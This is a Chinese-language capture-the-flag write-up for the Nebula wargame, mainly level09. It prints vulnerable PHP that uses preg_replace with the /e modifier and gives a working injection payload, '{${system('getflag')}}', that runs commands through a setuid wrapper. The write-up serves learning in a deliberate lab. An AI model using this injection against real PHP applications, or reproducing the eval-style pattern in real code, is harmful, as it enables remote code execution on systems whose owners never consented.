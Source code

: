 竟然是7F，查ASCII码表发现7F是Backspace（退格），0D是CR（回车），所以就按照这个顺序重新比划了下，得到密码是backd00Rmate。此题拿下！

# Nebula level09 #
> There's a C setuid wrapper for some vulnerable PHP code...
> 
> 这是一个C用setuid包装后的脆弱的PHP代码……

```php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

看到PHP，心中大喜，总算碰到一个相对熟悉的语言，老乡见老乡，两眼泪汪汪啊~~

flag09目录下有一个可执行的flag09（这就是所谓具有SetUID的C语言包装的PHP解释器吧），还有给出代码的flag09.php。代码逻辑还是很简单的，传入两个参数，一个是文件路径，一个没有用到。根据文件路径读出文件之后把Email那部分读出来，替换掉一些字符（反垃圾邮件），之后输出。

没看出什么有问题的地方，不过传入参数一定是可以利用的点。preg_replace中的e参数用的不多呀，一般都是用i（忽略大小写）。于是查PHP Manual，果不其然，e使preg_replace第二个参数变成函数执行，就和执行eval一样，另外这个参数太危险，在PHP5.5之后废除改用回调函数实现了。一句话木马暴露了！那就构造一下呗。

于是构造文件内容为:

```no-highlight
[email abc@def.com\");system(\"getflag]
```

照理说第二个参数应该被拼接成:

```no-highlight
"spam(\"email abc@def.com\");system(\"getflag\")"
```

这样就能顺利执行两个函数了。很可惜，天不由人愿，整个东西都被当做字符串被扔到spam函数里了。所以这里如果要探究得看一下PHP源码中具体的处理过程。

顿时没思路了……之后Google一下php的preg_replace的e参数的漏洞，发现有利用`{${function()}}`的技巧。即在`{${}}`包裹后的函数会被执行。于是：

```no-highlight
[email {${system('getflag')}}]
```

K.O！